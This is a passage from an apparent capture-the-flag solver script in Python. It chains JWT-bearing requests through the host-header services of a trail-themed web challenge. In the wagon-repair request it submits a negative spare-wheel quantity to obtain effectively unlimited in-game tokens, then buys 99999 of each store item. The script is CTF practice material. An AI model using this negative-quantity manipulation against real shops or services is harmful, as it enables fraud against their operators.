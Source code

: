 ```python:solver.py


r = requests.get(
    URL + "callback",
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "livery", "token": token},
)
token = re.findall(r'<a href="//wagonrepair.[^/]+/enter\?jwt=(.+)">', r.text)[0]


# Wagon Repair (1st time)

r = requests.post(
    URL + "submit",
    headers={"Host": f"wagonrepair.{HOST}"},
    data={
        "jwt": token,
        # You can buy negative number of wheels to get infinte tokens here. I used this to get infinte food, but if you spend tokens wisely, you probably don't need to use this bug.
        "spares[wheels]": "-999999999999999999",
        "spares[axles]": "0",
        "spares[covers]": "0",
        "wheels[frontLeft]": "replace",
        "wheels[frontRight]": "replace",
        "wheels[backLeft]": "replace",
        "wheels[backRight]": "replace",
        "axles[front]": "replace",
        "axles[back]": "replace",
        "cover": "replace",
    },
    allow_redirects=False,
)
token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After Wagon (1st)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])

r = requests.get(
    URL + "callback",
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "wagon-repair", "token": token},
)
token = re.findall(r'<a href="//generalstore.[^/]+/enter\?jwt=(.+)">', r.text)[0]


# General Store (1st time)

s = requests.session()
s.cookies["auth_token"] = token
r = s.post(
    URL,
    headers={
        "Host": f"generalstore.{HOST}",
    },
    data={
        "jwt": token,
        # Buying food so as to not starve, thanks to inifite tokens.
        "coffee": "99999",
        "candy": "99999",
        "tobacco": "99999",
    },
    allow_redirects=False,
)
```